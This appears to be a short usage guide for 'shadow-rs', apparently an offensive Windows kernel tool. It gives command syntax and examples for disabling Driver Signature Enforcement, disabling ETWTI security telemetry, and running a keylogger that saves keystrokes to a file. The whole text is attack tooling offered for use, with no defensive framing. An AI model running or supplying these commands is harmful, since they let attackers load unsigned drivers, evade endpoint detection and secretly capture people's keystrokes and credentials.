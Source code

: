 ## DSE (Driver Signature Enforcement)

Description: Enable or disable Driver Signature Enforcement.

```powershell
shadow.exe misc dse [OPTIONS]
```
Options:

- `--disable`: Disable DSE.
- `--enable`: Enable DSE.

Example usage:
```powershell
shadow-rs.exe misc dse --disable
```

This command disables Driver Signature Enforcement.

## ETWTI

Description: Enable or disable ETWTI.
```powershell
shadow.exe misc etwti [OPTIONS]
```
Options:
- `--disable`: Disable ETWTI.
- `--enable`: Enable ETWTI.

Example usage:
```
shadow.exe misc etwti --disable
```
This command disable ETWTI.

# Keylogger

Description: Runs a keylogger and saves the output to a specified file.
```powershell
shadow.exe misc keylogger --file <FILE>
```
Options:

- `--file`: The file path where the keylogger output will be stored.

Example usage:
```powershell
shadow.exe misc keylogger --file C:\Path\To\Output.txt
```

This command runs the keylogger and stores the output in `C:\Path\To\Output.txt`.


